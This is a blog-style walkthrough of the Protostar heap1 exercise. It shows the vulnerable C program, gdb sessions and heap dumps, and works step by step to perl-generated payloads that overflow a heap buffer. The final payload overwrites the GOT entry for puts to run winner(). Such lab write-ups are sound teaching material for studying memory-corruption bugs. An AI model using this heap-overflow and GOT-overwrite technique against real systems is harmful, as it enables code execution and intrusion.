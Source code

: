 ```yaml
---
layout: post
title:  "Protostar Heap1 challenge"
date:   2018-05-27 22:26:36 +0530
categories: exploit-exercises protostar heap1
---
```

[Heap1][heap1-proto-link] protostar exploit exercise introduces us to heap-overflow vulnerabilities and how they can be exploited. [Heap0][heap0-proto-link] was a relatively simple challenge so i have skipped writing about it. The source code for `heap1` is below
{% highlight cpp %}
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>



struct internet {
  int priority;
  char *name;
};

void winner()
{
  printf("and we have a winner @ %d\n", time(NULL));
}

int main(int argc, char **argv)
{
  struct internet *i1, *i2, *i3;

  i1 = malloc(sizeof(struct internet));
  i1->priority = 1;
  i1->name = malloc(8);

  i2 = malloc(sizeof(struct internet));
  i2->priority = 2;
  i2->name = malloc(8);

  strcpy(i1->name, argv[1]);
  strcpy(i2->name, argv[2]);

  printf("and that's a wrap folks!\n");
}
{% endhighlight %}

Ok. Now let us see the assembly for the vulnerable binary.
{% highlight nasm %}
user@protostar:/opt/protostar/bin$ gdb heap1
(gdb) set disassembly-flavor intel
(gdb) disas main
Dump of assembler code for function main:
0x080484b9 <main+0>:	push   ebp
0x080484ba <main+1>:	mov    ebp,esp
0x080484bc <main+3>:	and    esp,0xfffffff0
0x080484bf <main+6>:	sub    esp,0x20
0x080484c2 <main+9>:	mov    DWORD PTR [esp],0x8
0x080484c9 <main+16>:	call   0x80483bc <malloc@plt>
0x080484ce <main+21>:	mov    DWORD PTR [esp+0x14],eax
0x080484d2 <main+25>:	mov    eax,DWORD PTR [esp+0x14]
0x080484d6 <main+29>:	mov    DWORD PTR [eax],0x1
0x080484dc <main+35>:	mov    DWORD PTR [esp],0x8
0x080484e3 <main+42>:	call   0x80483bc <malloc@plt>
0x080484e8 <main+47>:	mov    edx,eax
0x080484ea <main+49>:	mov    eax,DWORD PTR [esp+0x14]
0x080484ee <main+53>:	mov    DWORD PTR [eax+0x4],edx
0x080484f1 <main+56>:	mov    DWORD PTR [esp],0x8
0x080484f8 <main+63>:	call   0x80483bc <malloc@plt>
0x080484fd <main+68>:	mov    DWORD PTR [esp+0x18],eax
0x08048501 <main+72>:	mov    eax,DWORD PTR [esp+0x18]
0x08048505 <main+76>:	mov    DWORD PTR [eax],0x2
0x0804850b <main+82>:	mov    DWORD PTR [esp],0x8
0x08048512 <main+89>:	call   0x80483bc <malloc@plt>
0x08048517 <main+94>:	mov    edx,eax
0x08048519 <main+96>:	mov    eax,DWORD PTR [esp+0x18]
0x0804851d <main+100>:	mov    DWORD PTR [eax+0x4],edx
0x08048520 <main+103>:	mov    eax,DWORD PTR [ebp+0xc]
0x08048523 <main+106>:	add    eax,0x4
0x08048526 <main+109>:	mov    eax,DWORD PTR [eax]
0x08048528 <main+111>:	mov    edx,eax
0x0804852a <main+113>:	mov    eax,DWORD PTR [esp+0x14]
0x0804852e <main+117>:	mov    eax,DWORD PTR [eax+0x4]
0x08048531 <main+120>:	mov    DWORD PTR [esp+0x4],edx
0x08048535 <main+124>:	mov    DWORD PTR [esp],eax
0x08048538 <main+127>:	call   0x804838c <strcpy@plt>
0x0804853d <main+132>:	mov    eax,DWORD PTR [ebp+0xc]
0x08048540 <main+135>:	add    eax,0x8
0x08048543 <main+138>:	mov    eax,DWORD PTR [eax]
0x08048545 <main+140>:	mov    edx,eax
0x08048547 <main+142>:	mov    eax,DWORD PTR [esp+0x18]
0x0804854b <main+146>:	mov    eax,DWORD PTR [eax+0x4]
0x0804854e <main+149>:	mov    DWORD PTR [esp+0x4],edx
0x08048552 <main+153>:	mov    DWORD PTR [esp],eax
0x08048555 <main+156>:	call   0x804838c <strcpy@plt>
0x0804855a <main+161>:	mov    DWORD PTR [esp],0x804864b
0x08048561 <main+168>:	call   0x80483cc <puts@plt>
0x08048566 <main+173>:	leave  
0x08048567 <main+174>:	ret    
End of assembler dump.
{% endhighlight %}
So now we would first like to how our heap memory is allocated. To do so let us put some breakpoints.
We place break-point before and after first and second malloc calls. First malloc call is for allocating first struct and second malloc call is for allocating string within this. Now we run program with a sample input to see check heap at various positions.
We know from the source code the this binary expects two arguments from command line.
{% highlight nasm %}
Breakpoint 1 at 0x80484c9: file heap1/heap1.c, line 23.
(gdb) b *0x080484ce
Breakpoint 2 at 0x80484ce: file heap1/heap1.c, line 23.
(gdb) b *0x080484e3
Breakpoint 3 at 0x80484e3: file heap1/heap1.c, line 25.
(gdb) b *0x080484e8
Breakpoint 4 at 0x80484e8: file heap1/heap1.c, line 25.
(gdb) r AAAA BBBB
Starting program: /opt/protostar/bin/heap1 AAAA BBBB
(gdb) info proc map
	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000          0        /opt/protostar/bin/heap1
	 0x8049000  0x804a000     0x1000          0        /opt/protostar/bin/heap1
	0xb7e96000 0xb7e97000     0x1000          0        
	0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so
	0xb7fd5000 0xb7fd6000     0x1000   0x13e000         /lib/libc-2.11.2.so
	0xb7fd6000 0xb7fd8000     0x2000   0x13e000         /lib/libc-2.11.2.so
{% endhighlight %}
Very well. So our binary has no heap memory area before the first malloc call. Kindof expected. On `Continuing` to next breakpoint we see a heap area has been carved out now.
So we then try to see memory area around heap and how it has been created.
{% highlight nasm %}
(gdb) c
Continuing.
(gdb) info proc map
Mapped address spaces:
	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000          0        /opt/protostar/bin/heap1
	 0x8049000  0x804a000     0x1000          0        /opt/protostar/bin/heap1
	 0x804a000  0x806b000    0x21000          0           [heap]
	0xb7e96000 0xb7e97000     0x1000          0        
	0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so
	0xb7fd5000 0xb7fd6000     0x1000   0x13e000         /lib/libc-2.11.2.so
(gdb) x/40x 0x804a000
0x804a000:	0x00000000	0x00000011	0x00000000	0x00000000
0x804a010:	0x00000000	0x00020ff1	0x00000000	0x00000000
0x804a020:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a030:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a040:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a050:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a060:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a070:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a080:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a090:	0x00000000	0x00000000	0x00000000	0x00000000
{% endhighlight %}
After first malloc call for struct has completed we see that `0x804a004` has value as `0x11`. This basically stores the size for malloc. On moving to position after next malloc the heap is
{% highlight nasm %}
(gdb) x/30x 0x804a000
0x804a000:	0x00000000	0x00000011	0x00000001	0x0804a018
0x804a010:	0x00000000	0x00000011	0x00000000	0x00000000
0x804a020:	0x00000000	0x00020fe1	0x00000000	0x00000000
0x804a030:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a040:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a050:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a060:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a070:	0x00000000	0x0000000
{% endhighlight %}
So by now value `1` has been saved to priority at `0x804a008`.
`0x804a012` has value `0x0804a018` which tells where the newly malloced char * name will be stored.
The same happens for other two mallocs.
Now we move on to checking this vulnerability.
{% highlight nasm %}
(gdb) b *0x0804853d
Breakpoint 6 at 0x804853d: file heap1/heap1.c, line 32.
(gdb) r AAAABBBBCCCCDDDDEEEEFFFFGGGG
Breakpoint 6, main (argc=2, argv=0xbffff844) at heap1/heap1.c:32
32	heap1/heap1.c: No such file or directory.
	in heap1/heap1.c
(gdb) x/30x 0x804a000
0x804a000:	0x00000000	0x00000011	0x00000001	0x0804a018
0x804a010:	0x00000000	0x00000011	0x41414141	0x42424242
0x804a020:	0x43434343	0x44444444	0x45454545	0x46464646
0x804a030:	0x47474747	0x00000000	0x00000000	0x00000000
0x804a040:	0x00000000	0x00020fc1	0x00000000	0x00000000
0x804a050:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a060:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a070:	0x00000000	0x00000000
(gdb) c
Continuing.
Program received signal SIGSEGV, Segmentation fault.
*__GI_strcpy (dest=0x46464646 <Address 0x46464646 out of bounds>, src=0x0) at strcpy.c:39
39	strcpy.c: No such file or directory.
	in strcpy.c
{% endhighlight %}
Seems what we wrote to as `FFFF` ie `0x46464646` was the destination address for second `strcpy`.
Our goal is to execute `winner` function. So we could overwrite return address of `main` with address of winner. Or we could also overwrite return address of second strcpy with winner's.
We first get address of winner and return address of main and second strcpy..
{% highlight nasm %}
(gdb) print winner
$1 = {void (void)} 0x8048494 <winner>
(gdb) x/x $ebp+0x4
0xbffff79c:	0xb7eadc76
(gdb) b *0x08048555
Breakpoint 7 at 0x8048555: file heap1/heap1.c, line 32.
(gdb) c
Continuing.
Breakpoint 7, 0x08048555 in main (argc=2, argv=0xbffff844) at heap1/heap1.c:32
32	in heap1/heap1.c
(gdb) s
*__GI_strcpy (dest=0x46464646 <Address 0x46464646 out of bounds>, src=0x0) at strcpy.c:39
39	strcpy.c: No such file or directory.
	in strcpy.c
(gdb) x/x $ebp+0x4
0xbffff76c:	0x0804855a
{% endhighlight %}
Recalling return address is `0x4` away from `$ebp`. Also to get location where return address from second strcpy is stored, we break just before strcpy and step into us `s`. This would execute strcpy, creating a stack for it with return address.
Exploit will work as the first strcpy call will, after unchecked writing 20 dummy bytes to heap, overwrite destination address of second strcpy. And second strcpy will write this modified address ie `location of return address` with address of winner.
{% highlight nasm %}
(gdb) r `perl -e 'print "A"x20 . "\x9c\xf7\xff\xbf" . " " . "\x94\x84\x04\x08"'`
Starting program: /opt/protostar/bin/heap1 `perl -e 'print "A"x20 . "\x9c\xf7\xff\xbf" . " " . "\x94\x84\x04\x08"'`
and that's a wrap folks!
and we have a winner @ 1527765672
Program received signal SIGSEGV, Segmentation fault.
0x00000000 in ?? ()
(gdb) r `perl -e 'print "A"x20 . "\x6c\xf7\xff\xbf" . " " . "\x94\x84\x04\x08"'`
Starting program: /opt/protostar/bin/heap1 `perl -e 'print "A"x20 . "\x6c\xf7\xff\xbf" . " " . "\x94\x84\x04\x08"'`
and we have a winner @ 1527765683
Program received signal SIGSEGV, Segmentation fault.
0xbffff70a in ?? ()
{% endhighlight %}
So we are able to execute winner from `gdb`. Notice how modifying strcpy return address does not output `and that's a wrap folks!` coz printf is not executed.
But when i tried running outside gdb, i was unsuccessful in both cases.
{% highlight nasm %}
user@protostar:/opt/protostar/bin$ ./heap1 `perl -e 'print "A"x20 . "\x9c\xf7\xff\xbf" . " " . "\x94\x84\x04\x08"'`
and that's a wrap folks!
user@protostar:/opt/protostar/bin$ ./heap1 `perl -e 'print "A"x20 . "\x6c\xf7\xff\xbf" . " " . "\x94\x84\x04\x08"'`
and that's a wrap folks!
{% endhighlight %}
This was probably due to stack changing when working outside gdb.
So i tried using Global Offset Table now for exploit. I had read about it while working on [format4][format4-proto-link] exercise.After 2nd `strcpy`, there is a call to `puts` for printing. `0x08048561 <main+168>:	call   0x80483cc <puts@plt>`. Here call is directed to a location in `plt` table which further points to `GOT` table.
{% highlight nasm %}
(gdb) disas 0x80483cc
Dump of assembler code for function puts@plt:
0x080483cc <puts@plt+0>:	jmp    DWORD PTR ds:0x8049774
0x080483d2 <puts@plt+6>:	push   0x30
0x080483d7 <puts@plt+11>:	jmp    0x804835c
End of assembler dump.
(gdb) x/x 0x8049774
0x8049774 <_GLOBAL_OFFSET_TABLE_+36>:	0x080483d2
{% endhighlight %}
`0x8049774` is pointer to entry in `GOT` which has value `0x080483d2`. This value is what needs to be
overwritten with winner address. So with a change to our desination address for second strcpy we are able to execute winner.
{% highlight nasm %}
(gdb) r `perl -e 'print "A"x20 . "\x74\x97\x04\x08" . " " . "\x94\x84\x04\x08"'`
Breakpoint 1, 0x08048561 in main (argc=3, argv=0xbffff844) at heap1/heap1.c:34
(gdb) disas 0x80483cc
Dump of assembler code for function puts@plt:
0x080483cc <puts@plt+0>:	jmp    DWORD PTR ds:0x8049774
0x080483d2 <puts@plt+6>:	push   0x30
0x080483d7 <puts@plt+11>:	jmp    0x804835c
(gdb) x/x 0x8049774
0x8049774 <_GLOBAL_OFFSET_TABLE_+36>:	0x08048494
(gdb) c
Continuing.
and we have a winner @ 1527769804
Program exited with code 042.
{% endhighlight %}
{% highlight shell %}
user@protostar:/opt/protostar/bin$ ./heap1 `perl -e 'print "A"x20 . "\x74\x97\x04\x08" . " " . "\x94\x84\x04\x08"'`
and we have a winner @ 1527769887
{% endhighlight %}
Since `GOT` address are stable both inside and out of gdb we are also able to get to winner w/o gdb.

[heap1-proto-link]:https://exploit-exercises.com/protostar/heap1/
[heap0-proto-link]:https://exploit-exercises.com/protostar/heap0/
[format4-proto-link]:https://exploit-exercises.com/protostar/format4
